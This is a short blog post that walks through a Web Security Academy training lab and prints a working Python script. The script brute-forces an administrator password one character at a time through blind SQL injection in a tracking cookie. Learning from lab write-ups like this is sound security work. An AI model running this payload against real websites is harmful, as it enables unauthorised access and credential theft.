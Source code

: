 ```yaml
---
layout: post
current: post
cover: 'assets/images/websecacademy/blindsql/cover.jpeg'
navigation: True
title: "Blind SQL injection with conditional responses script"
date: 2021-01-02 00:00:00
tags: [websecurityacademy, sqli, python]
class: post-template
subclass: 'post'
author: darryn
---
```

![blindsql](/assets/images/websecacademy/blindsql/cover.jpeg)

### Overview

This post is to provide the script I created to automate the process of using blind SQL injection with conditional responses to brute force a password. This was completed for a lab while completing the SQL Injection topic on [WebSecurity Academy](https://portswigger.net/web-security). I can't recommend this training enough, the content is well written and the labs are great and best of all its free!

As part of the lab I completed the process 3 ways, manually using Burp repeater, using Burp intruder and finally by writing this Python script. I am still learning Python and this was a good exercise to do more Python coding and also reenforce the learning. 

### Final Script

```highlight
# 02/01/21
# blind-sql-lab.py
# https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses
# POC script to automate getting the administrator password using blind sql conditional responses

import requests
import string

url = "" # Insert URL here!

cookievalue = ""
password = ""

cookies = {'TrackingId':cookievalue}

characters = list(string.ascii_lowercase)
characters = characters + list(string.digits)

for i in range(1,21):
    for char in characters:
        cookievalue = "x'+UNION SELECT+'a' FROM users WHERE username='administrator' AND substring(password,{},1)='{}'--".format(i,char)
        cookies = {'TrackingId':cookievalue}
        r = requests.get(url, cookies=cookies)
        response = r.text
        if "Welcome back!" in response:
            print(char)
            password = password + char
            
print("Password is: " + password)
```

### Next Steps

The script could be a lot better, for example:

- Initial check to test the website is up
- Run a test conditional check to test for SQL injection
- Automate the process of finding the password length and pass to the range function

Thanks for reading!
